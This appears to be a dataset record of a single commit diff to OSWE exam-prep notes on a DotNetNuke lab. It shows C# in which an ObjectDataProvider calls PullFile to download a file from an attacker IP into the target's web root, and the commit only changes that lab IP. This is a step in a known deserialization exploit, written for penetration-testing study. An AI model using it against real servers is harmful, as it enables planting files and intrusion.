

Before and after one commit to solimanalmansor/OSWE-Prep, a Markdown page: OSWE-Labs/DotNetNuke/README.md, the part around the change. Rendered like a GitHub page.

```diff
--- a/OSWE-Labs/DotNetNuke/README.md
+++ b/OSWE-Labs/DotNetNuke/README.md
@@ -159,7 +159,7 @@ Its power lies in allowing attackers to set the `MethodName` property to invoke
               ObjectDataProvider myODP = new ObjectDataProvider();
               myODP.ObjectInstance = new FileSystemUtils();
               myODP.MethodName = "PullFile";
-              myODP.MethodParameters.Add("http://192.168.119.120/myODPTest.txt");
+              myODP.MethodParameters.Add("http://192.168.45.192/myODPTest.txt");
               myODP.MethodParameters.Add("C:/inetpub/wwwroot/dotnetnuke/PullFileTest.txt");
               Console.WriteLine("Done!");
           }
```
